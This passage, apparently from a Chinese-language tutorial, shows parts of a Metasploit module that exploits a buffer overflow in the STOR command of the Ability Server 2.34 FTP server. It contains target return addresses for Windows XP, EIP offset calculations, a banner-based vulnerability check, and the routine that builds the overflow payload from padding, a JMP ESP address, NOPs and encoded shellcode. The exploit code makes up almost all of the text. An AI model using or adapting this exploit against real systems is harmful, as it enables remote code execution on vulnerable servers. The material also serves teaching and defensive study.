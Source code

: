 ```
              'Ret' => 0x73E32ECF,
              'Offset' => 966
            }
          ],
          [
            'Windows XP SP3 ENG',
            {
              #JMP ESP  (USER32.dll. Unchanged unpatched SP3 - fully patched)
              'Ret' => 0x7E429353,
              'Offset' => 966
            }
          ],
        ],
      'DefaultTarget'   => 0,
      'DisclosureDate' => 'Oct 22 2004'
    ))

    register_options(
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end 
```

+   检查目标是否存在漏洞。

```
def check
  connect
  disconnect
  if banner =~ /Ability Server 2\.34/
    return Exploit::CheckCode::Appears
  else
    if banner =~ /Ability Server/
      return Exploit::CheckCode::Detected
    end
  end
  return Exploit::CheckCode::Safe
end 
```

+   发送利用

```
def exploit
  c = connect_login
  return if not c

  myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

  # Take client IP address + FTP user lengths into account for EIP offset
  padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
  junk = rand_text_alpha(padd_size)

  sploit = junk
  sploit << [target.ret].pack('V')
  sploit << make_nops(32)
  sploit << payload.encoded
  sploit << rand_text_alpha(sploit.length)

  send_cmd(['STOR', sploit], false)
  handler
  disconnect
```